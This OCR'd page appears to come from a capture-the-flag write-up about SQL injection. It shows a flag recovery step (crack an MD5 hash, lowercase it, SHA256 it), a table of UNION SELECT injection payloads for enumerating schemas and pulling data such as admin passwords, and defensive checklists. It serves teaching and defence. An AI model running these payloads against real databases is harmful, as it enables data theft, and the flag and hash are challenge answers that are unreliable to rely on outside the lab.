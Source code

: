 **Final Flag Recovery Process:**
1. 🔓 **MD5 Decryption** - Decrypt `1928e8083cf461a51303633093573c46`
2. 🔤 **Text Transformation** - Convert result to lowercase
3. 🔐 **SHA256 Hashing** - Apply SHA256 to get final flag
4. 🎉 **Success** - Flag: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

### 🌍 Cross-Database SQL Injection Techniques

| Attack Vector | Purpose | Example Query |
|---------------|---------|---------------|
| **🗄️ Cross-Database Enumeration** | Discover other databases | `UNION SELECT schema_name, 'DB' FROM information_schema.schemata` |
| **📊 Table Discovery** | Find tables across databases | `UNION SELECT table_name, table_schema FROM information_schema.tables` |
| **📋 Column Mapping** | Map column structures | `UNION SELECT column_name, table_name FROM information_schema.columns` |
| **🔍 Data Extraction** | Extract from specific tables | `UNION SELECT title, comment FROM Member_images.list_images` |
| **🎯 Targeted Queries** | Focus on sensitive data | `UNION SELECT password, email FROM admin.users` |

---

## 🛠️ Security Implementation

### ❌ vs ✅ Comparison

| 🚫 **Vulnerable Implementation** | ✅ **Secure Implementation** |
|--------------------------------|----------------------------|
| Multiple injection points unprotected | All inputs use prepared statements |
| Cross-database access allowed | Database user privilege separation |
| Detailed error messages exposed | Generic error handling |
| No input validation on search fields | Comprehensive input sanitization |

### 🔒 Defense Strategies

**Database Architecture Security:**
- [ ] **🔐 Database Segregation** - Separate databases for different functions
- [ ] **🚫 Privilege Limitation** - Restrict cross-database access
- [ ] **👤 User Role Separation** - Different DB users for different applications
- [ ] **🛡️ Schema Isolation** - Prevent unauthorized schema access

**Application-Level Protection:**
- [ ] **💉 Universal Parameterization** - Prepared statements for ALL queries
- [ ] **🧹 Input Validation** - Validate every search parameter
- [ ] **🔍 Query Whitelisting** - Allow only predefined query patterns
- [ ] **📊 Result Set Limiting** - Limit number of returned records

**Advanced Security Measures:**
- [ ] **🔒 Database Firewall** - Monitor and block suspicious queries
- [ ] **📈 Query Monitoring** - Log all database interactions
- [ ] **🎭 Error Sanitization** - Never expose database structure in errors
- [ ] **⏱️ Query Timeout** - Prevent long-running malicious queries
